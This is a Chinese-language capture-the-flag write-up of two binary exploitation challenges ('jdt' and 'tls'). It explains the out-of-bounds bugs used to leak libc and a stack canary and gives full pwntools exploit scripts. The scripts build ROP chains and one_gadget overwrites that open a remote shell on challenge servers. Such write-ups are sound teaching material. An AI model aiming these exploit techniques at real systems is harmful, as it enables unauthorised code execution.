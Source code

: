 ```yaml
---
title: 虎符2021线下Pwn题WP
date: 2021-05-09T12:16:31+08:00
lastmod: 2021-05-09T12:16:31+08:00
author: Ch4rc0al

#cover: /img/cover.jpg
categories:
  - WriteUps
tags:
  - Pwn 
  - CTF
# nolastmod: true
---
```


<!--more-->

### jdt

>    Arch:     amd64-64-little  
>    RELRO:    Full RELRO  
>    Stack:    Canary found  
>    NX:       NX enabled  
>    PIE:      PIE enabled  

题目在栈上操作，代码审计发现虽然只能创建16个book，但可以edit和show第17个book，会打印出rbp附近内容。

我们获取并利用`__libc_start_main_ret`的真实地址来得到远程libc版本和libc基址，网上下载libc文件得到`one_gadget`偏移，修改ret为`ong_gadget`即可，需要注意的一点是我们需要在栈中填充一定的字符才能打印出地址来。
```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')

def create(p,a,n,d):
    sh.sendlineafter("Choice: ","1")
    sh.sendlineafter("Price?",p)
    sh.sendlineafter("Author?",a)
    sh.sendlineafter("Book's name?",n)
    sh.sendlineafter("Description?",d)
    
def edit(index,choice,data):
    sh.sendlineafter("Choice: ","2")
    sh.sendlineafter("idx?",str(index))
    sh.sendlineafter("Choice: ",str(choice))
    if(choice==1):
       sh.sendafter("Price?",data)
    elif(choice==2):
        sh.sendafter("Author?",data)
    elif(choice==3):
        sh.sendafter("Book's Name?",data)
    elif(choice==4):
        sh.sendafter("Description?",data)

def show(index):
    sh.sendlineafter("Choice: ","3")
    sh.sendlineafter("idx?",str(index))
    #sh.recv()

def sell(index):
    sh.sendlineafter("Choice: ","4")
    sh.sendlineafter("idx?",str(index))

#sh=process('./jdt')
sh=remote('dawnaa.cn',9001)
elf=ELF('./jdt')
libc=ELF('./jdt_libc')
for i in range(0,16):
    create(str(i),'aaa','bbb','ccc')

edit(16,2,"aaaaaaaa")
show(16)
sh.recvuntil("Author: ")
libc_start_main_ret=u64(sh.recv()[8:14]+"\x00\x00")

libc_base=libc_start_main_ret-libc.symbols['__libc_start_main']-231
ogg=libc_base+0x45226
edit(16,3,'aaaaaaaa'+p64(ogg))
print hex(libc_start_main_ret)
print hex(libc_base)
print hex(ogg)
show(16)
sh.send('5')
sh.interactive()

'''
0x45226 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4527a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf0364 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1207 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

'''

```

---
### tls
>    Arch:     amd64-64-little  
>    RELRO:    Full RELRO  
>    Stack:    Canary found  
>    NX:       NX enabled  
>    PIE:      No PIE (0x400000)  

vuln函数运行在线程中，不影响我们正常做题，gdb调试时用`thread`命令切换至线程调试即可

依然是栈题，给出了libc，审计代码发现pos没有规定范围，我们可以修改一开始设定的size并输出calc来达到泄露`canary`的目的，一开始我们需要将`rbp-16`清为0。

泄露`canary`后，我们就可以构造`rop`链用`puts`来输出真实地址，最终将ret改为`one_gadget`即可。

```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
sh=remote('dawnaa.cn',9003)
#sh=process("./tls")#env = {"LD_PRELOAD" : "./tls_libc"})
elf=ELF("./tls")
libc=ELF("./tls_libc")
'''
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

'''
sh.sendlineafter("How many? ","1")
sh.sendlineafter(" = ","0")

sh.sendlineafter("Your choice: ","1")
sh.sendlineafter("Please input pos: ","54")
sh.sendlineafter("Your choice: ","2")
sh.sendlineafter("Please input new number: ","0")

sh.sendlineafter("Your choice: ","1")
sh.sendlineafter("Please input pos: ","-4")
sh.sendlineafter("Your choice: ","2")
sh.sendlineafter("Please input new number: ","56")
sh.sendlineafter("Your choice: ","3")
sh.recvuntil("result = ")
canary=int(sh.recvline()[:-1],10)
print hex(canary)

pop_rdi=0x401293
sh.sendlineafter("Your choice: ","4")
payload='a'*0x38+p64(canary)+'bbbbbbbb'+p64(pop_rdi)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(0x400dc4)
sh.sendlineafter("Oh!What is your name? ",payload)
sh.recvuntil("GoodBye.")
sh.recvuntil("a"*24)
sh.recvuntil("\n")
puts_got=u64(sh.recvline()[:6].ljust(8,'\x00'))
print hex(puts_got)
libc_base=puts_got-libc.symbols['puts']
print hex(libc_base)
ogg=libc_base+0x4526a
print hex(ogg)
payload='a'*0x38+p64(canary)+'bbbbbbbb'+p64(ogg)
sh.sendlineafter("How many? ","1")
sh.sendlineafter(" = ","0")
sh.sendlineafter("Your choice: ","4")
sh.sendlineafter("Oh!What is your name? ",payload)
sh.interactive()


```
